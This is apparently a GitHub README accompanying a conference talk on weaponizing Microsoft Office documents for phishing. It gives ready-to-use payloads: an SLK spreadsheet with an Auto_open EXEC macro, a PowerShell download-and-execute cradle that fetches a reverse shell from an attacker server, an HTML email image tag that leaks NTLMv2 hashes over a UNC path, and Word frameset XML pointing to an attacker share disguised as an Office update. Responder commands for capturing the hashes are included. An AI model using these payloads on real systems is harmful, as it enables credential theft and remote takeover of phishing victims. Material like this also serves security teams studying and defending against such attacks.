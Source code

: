 # Weaponizing-Office
twitter: [iKnadt](https://twitter.com/iKnadt)

## Introduction:
I did a talk at [0xC0ffee](https://0xc0ffee.co.za), where I discussed different ways to weaponize microsoft office.
What was different about the talk, was that these methods have been discovered prior to 2018, and did not require a lot of user interaction to execute the payloads. These methods work great with phishing attacks.

I decided not to use a standard way to present my talk, so [@MTB_m00se](https://twitter.com/MTB_m00se) introduced me to terminal markdown where I found [patat](https://github.com/jaspervdj/patat)

I recently discovered a tool called [Responder](https://github.com/SpiderLabs/Responder), which I used in my talk.
I mainly used Responder to capture NTLMv2 hashes from victom machines.

I found a great [article](https://medium.com/@petergombos/lm-ntlm-net-ntlmv2-oh-my-a9b235c58ed4) explaining what is NTLMv2 hashes and what can be done with it.

Below is a short extract from the article:
> This is the way passwords are stored on modern Windows systems, and can be obtained by dumping the SAM database, or using Mimikatz. They are also stored on domain controllers in the NTDS file. These are the hashes you can use to pass-the-hash.

## Contents:

1. Excel (.SLK)
2. Outlook (file://)
3. Word (frameset)

A common finding in penetration tests is that clients are not properly managing egress packet filtering from their network to the internet. This post specifically talks about the dangers of allowing egress of SMB communications over port 445 to the internet, and one simple method of exploiting it to capture a user's credentials, crack them, and gain access to the network.

Objective is to capture NTLMv2 hashes by using the above programs. The user should not have to do more than 1 click after downloading the office file. 

```BONUS: will try to get reverse shells as well```

## 1. Excel (.SLK)

> An SLK file is a file saved in the Symbolic Link (SYLK) format created by Microsoft to transfer data between spreadsheet programs and other databases. 

I found this exploit on [ired.team](https://ired.team/offensive-security/phishing-with-ms-office/phishing-.slk-excel) which gave a great walkthrough oh how to exactact perform RCE in an SLK file.

### Excel RCE 

#### Setup
1. Create an new text file, put the the below code and save it as .slk file:
```
ID;P
O;E
NN;NAuto_open;ER101C1;KOut Flank;F
C;X1;Y101;K0;EEXEC("c:\shell.cmd")
C;X1;Y102;K0;EHALT()
E
```
2. DONE `HOLY SHIT THAT WAS HARD!!`

#### Capture NTLMv2 Hash

Setup Responder `./Responder.py -I ens4 -vvv`

Replace `c:\shell.cmd` with `cmd.exe /c \\IP\IPC$`. Please make sure the IP is your IP.

Once the file.slk is opened the user will need to click on `Enable Content`. Once the user clicks the button the payload is executed. Once the button is clicked Excel, every time after that the payload will be executed when the file is openned (Unless the files is renamed).

![](excel_NTLMv2_hash_capture.gif)

#### Excel RCE - Powershell Reverse shell(BONUS)

1. Change the `cmd.exe /c \\IP\IPC$` to 

````
	powershell IEX 
	(New-Object Net.WebClient).DownloadString(
	'http://192.168.56.101/test.ps1')
````
2. set up `test.ps1` on a server. 
test.ps1 is a [powershell reverse shell](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md#powershell)

DONE...

![](excel_NTLMv2_hash_reverse.gif)

More on [Symbolic Link](https://en.wikipedia.org/wiki/SYmbolic_LinK_(SYLK)) files

## 2. Outlook (file://)

### Steps:
1. Create HTML email
2. `<img src="file://IP/fakeimage.png" />`
3. Send email! Important!

![](outlook_capture_hash.gif)

NOTE: `the user only needs to download the image once. As the POC shows, once the email is openned again, the hash is captured`

Though: can this be uses as a [DOS attack](https://www.kb.cert.org/vuls/id/867968/)?


## 3. Word (frameset)

> Historically Microsoft Word was used as an HTML editor. This means that it can support HTML elements such as framesets. It is therefore possible to link a Microsoft Word document with a UNC path and combing this with responder in order to capture NTLM hashes externally.

### Setup (more complicated)

1. Create a word document
2. Write anything into the document
3. Save Document
4. Right click on document -> Open archive
5. Edit \file.docx\word\webSettings.xml
6. Add the following to the file between `<w:optimizeForBrowser/>` xml tag

````
<w:frameset>
<w:framesetSplitbar>
<w:w w:val="60"/>
<w:color w:val="auto"/>
<w:noBorder/>
</w:framesetSplitbar>
<w:frameset>
<w:frame>
<w:name w:val="3"/>
<w:sourceFileName r:id="rId1"/>
<w:linkedToFile/>
</w:frame>
</w:frameset>
</w:frameset>
````

7. Create file \file.docx\word\_rels\webSettings.xml.rels

````
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<Relationships
xmlns="http://schemas.openxmlformats.org/package/2006/relationships">
<Relationship Id="rId1" Type="http://schemas.openxmlformats.org/officeDocument/2006/relationships/frame" Target="\\IP\Microsoft_Office_Updates.docx" TargetMode="External"/>
</Relationships>
````
8. DONE!!!

POC is too long to make a GIF

More information on [Framesets](https://pentestlab.blog/2017/12/18/microsoft-office-ntlm-hashes-via-frameset/)
